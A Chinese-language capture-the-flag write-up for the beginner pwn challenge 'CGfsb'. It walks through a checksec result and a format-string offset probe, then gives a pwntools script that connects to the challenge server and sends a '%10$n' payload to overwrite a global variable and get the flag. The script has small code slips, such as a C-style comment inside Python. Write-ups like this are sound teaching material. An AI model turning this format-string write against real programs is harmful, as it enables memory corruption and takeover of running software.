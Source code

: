 ## 攻防世界 新手 PWN----[CGfsb](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5050&page=1)

题目中暗示使用`printf `的`format string`漏洞。漏洞详解可参照[链接](https://wiki.x10sec.org/pwn/fmtstr/fmtstr_intro/)

首先用checksec命令检查可执行文件。

```shell
	Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

发现栈不可执行，且有金丝雀保护。但是没有开始地址随机化。

本地执行程序测试，执行报错`No such file or directory`，通过搜索查到，因为此程序是32位程序，在64位机器上缺少动态运行库，通过命令`sudo apt install libc6-i386`可解决。

main函数猜测源码如下

![CGfsb](C:\Users\liu\Desktop\Notes\images\CGfsb.png)

因为没有开启地址随机，由汇编可得pwnme变量地址0X804a068。

![CGfsb2](C:\Users\liu\Desktop\Notes\images\CGfsb2.png)

通过上述分析可知，只要使得pwnme的值为8即可获得flag。

通过在message的地方输入`AAAA.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x\n`，得printf第一个参数（即格式化字符串地址）存放地址与格式化字符串相隔10个距离。

![cgfsb3](C:\Users\liu\Desktop\Notes\images\cgfsb3.png)

可使用格式化字符串漏洞改写该变量。

```python
from pwn import *

context.log_level = "DEBUG"
addr = p32(0x804a068)

# p = process("./hello")
p = remote("111.198.29.45", 32277)
p.recvuntil("please tell me your name:\n")
p.send("liu")
p.recvuntil("leave your message please:\n")
p.send(addr + bytes("aaaa%10$n"))    // addr占4个byte，字符串aaaa占4个byte

p.interactive()
```





